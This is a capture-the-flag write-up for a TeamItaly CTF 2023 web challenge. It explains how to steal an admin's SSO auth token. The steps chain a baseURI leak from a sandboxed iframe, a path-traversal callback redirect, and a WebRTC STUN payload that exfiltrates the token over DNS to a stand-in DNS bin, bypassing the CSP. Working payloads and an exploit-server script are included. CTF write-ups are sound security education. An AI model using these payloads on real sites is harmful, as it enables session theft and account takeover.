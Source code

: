 # TeamItaly CTF 2023

## [web] ᴬnother ᵤseless ᴬpplication (2 solves)
Just ᴬnother ᵤseless ᴬpplication

Site: http://site.aua.challs.teamitaly.eu

Authors: Alessandro Mizzaro <@Alemmi>, Stefano Alberto <@Xato>


## Overview

The application is a useless website, the only features available are:
- log in and register through an external sso
- set your profile description as HTML in a sandboxed iframe
- check the descriptions of public users

The flag is in the profile description of the admin.



The profile description is sandboxed inside an iframe like this:
```html
<iframe sandbox="allow-scripts" srcdoc="<%= profile.desc %>"></iframe>
```

Moreover, inside the iframe, the following CSP applies (inherited from the parent document):

```http
Content-Security-Policy: default-src 'none'; script-src 'unsafe-inline' https://cdn.jsdelivr.net/; style-src 'unsafe-inline' https://cdn.jsdelivr.net/; img-src data: ; connect-src 'self'
```


### Location leak

Even if we are in a sandboxed iframe, and we can't access directly the location of the parent document, we can still leak the full URL of the parent document accessing the *baseURI* variable like this:

```html
<svg onload="console.log(baseURI)">
```

*baseURI* also includes the URL fragment, if we are able to change the callback of the sso to our exploit, we could leak a valid authentication code of the admin.


### Redirect

The callback URL is checked by the following code:

```js
host.startsWith(`${CHALL_URL}/cb`)
```

We can manipulate the callback value to force a redirection to our profile like this:

```
http://sso.aua.challs.teamitaly.eu/login?callback=http://site.aua.challs.teamitaly.eu/cb/../profile?user=aaaaa
```

When the admin bot visits this link, it will redirect to the profile of user *aaaaa* with a valid authentication token in the fragment.

### Leak

Now we are able to access the auth token of the admin, we only need a way to leak it to us.

Because of the presence of the CSP, we can't simply use a webhook to leak information.

However, we can still use DNS exfiltration abusing the RTC protocol, using this payload:

```js
(async()=>{p=new RTCPeerConnection({iceServers:[{urls: "stun:LEAK.dnsbin"}]});p.createDataChannel('');p.setLocalDescription(await p.createOffer())})()
```


### Exploit


#### Profile payload

First of all, we need to register a user and set its profile to a payload similar to this, leaking the fragment of the parent URL and leaking it to the DNS bin.

```html
<script>
function asciitoHex(ascii){
res = ''
 for (var n = 0; n < ascii.length; n ++) {
  res += Number(ascii.charCodeAt(n)).toString(16);

}return res;}
</script>
<svg onload="(async()=>{p=new RTCPeerConnection({iceServers:[{urls: 'stun:'+asciitoHex(baseURI.split('#')[1])+'.your.dns.bin.test'}]});p.createDataChannel('');p.setLocalDescription(await p.createOffer())})()">
```


#### Exploit server

First of all we need the bot to log into the real application (as it's only logged in the sso).

Then, we can redirect the bot to the `/login` endpoint of the sso with the callback to the profile of our user.

```html
<script>
  // login the admin in the app
  w = window.open('http://site.aua.challs.teamitaly.eu/login')

  explurl = 'http://sso.aua.challs.teamitaly.eu/login?callback=http://site.aua.challs.teamitaly.eu/cb/../profile?user=aaaaa'
  
  setTimeout(()=>{location = explurl}, 1000)
</script>
```

After the attack, we will leak the authentication token in the DNS bin, we can use the token to access the app as the admin and retrieve the flag.
